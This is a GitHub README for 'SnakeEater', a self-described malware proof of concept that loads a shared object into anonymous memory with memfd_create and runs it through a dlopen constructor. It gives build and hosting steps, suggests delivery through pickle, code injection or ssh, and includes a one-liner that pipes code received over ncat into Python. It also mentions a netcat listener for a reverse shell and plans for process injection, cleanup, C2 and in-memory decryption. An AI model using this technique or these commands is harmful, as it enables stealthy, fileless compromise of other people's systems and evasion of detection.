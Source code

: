 # SnakeEater

### To start:

Run the following commands:


`cmake .`

`make`


Now you should have the libSnakeEater.so file in the current directory. Host this somewhere. 

#### For Example:
`python2 -m SimpleHTTPServer 8080`

Then invoke the script in whatever way (pickle, code injection, ssh, or etc)

`ncat -nvlp 4443 --ssl | python -`   <- i just learned this trick and I love it

you know, whatever...

Then set up a net cat listener on whatever server you configured in `library.cpp`


## Concept

This PoC works by using the `memfd_create` syscall to map a page of anonymous memory to a file descriptor, write a Shared Oject to that page, and then execute the loaded SO. The execution of our malware is caused by abusing the constructor called by dlopen defined in the source as:

`void __attribute__ ((constructor)) init_eater(void);`

This technique may be able to be expanded to execute plain ELFs via `fexecve` however that may show as a subprocess and be a tip-off.

# TBD

More research is still being done, and I hope to be able to implemnt a pure python version of the following:

* Remote process injection and local process cleanup
* Better C2 for the example (pupy didn't work)
	* and seriously plain tcp dup() shell? What is this 2005?
* Architecture detection (for use in code injection) to get correct SO
* in memory decryption of loaded so 
* ~~pupy integration?~~~
	* [I'm a big dummy](https://github.com/n1nj4sec/pupy/blob/unstable/pupy/packages/all/pupyimporter.py#L119) thanks [ninjasec](https://github.com/n1nj4sec/)

